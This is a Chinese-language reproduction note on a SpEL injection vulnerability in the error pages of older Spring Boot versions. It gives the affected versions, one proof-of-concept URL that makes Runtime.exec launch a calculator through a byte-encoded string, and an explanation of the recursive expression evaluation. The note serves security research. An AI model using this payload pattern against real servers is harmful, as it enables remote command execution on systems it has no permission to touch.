



### 1.条件

1.spring boot 1.10-1.1.12, 1.2.0-1.2.7, 1.3.0

2.知道一个存在springboot的错误页面以及参数名

### 2.复现过程

1.

2.

http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}

### 3.原理

1.触发点发生在springboot的自定义错误页面，当用户触发时，会返回错误信息（错误状态，时间戳，用户输入的参数等)

2.这些错误信息会已${'参数名'}->${'参数值'}的方式进行存储,后端渲染这些错误信息时,会判断模板中每个${的位置，然后再判断最近的}的位置，从而将参数名一个个读取出来,当参数名取出后，会再次对 **‘参数值’（可控）**使用相同操作,这时SpEL引擎将将直接对payload进行解析，从而触发了漏洞

### 参考链接：

https://github.com/LandGrey/SpringBootVulExploit#%E9%9B%B6%E8%B7%AF%E7%94%B1%E5%92%8C%E7%89%88%E6%9C%AC

https://www.cnblogs.com/litlife/p/10183137.html

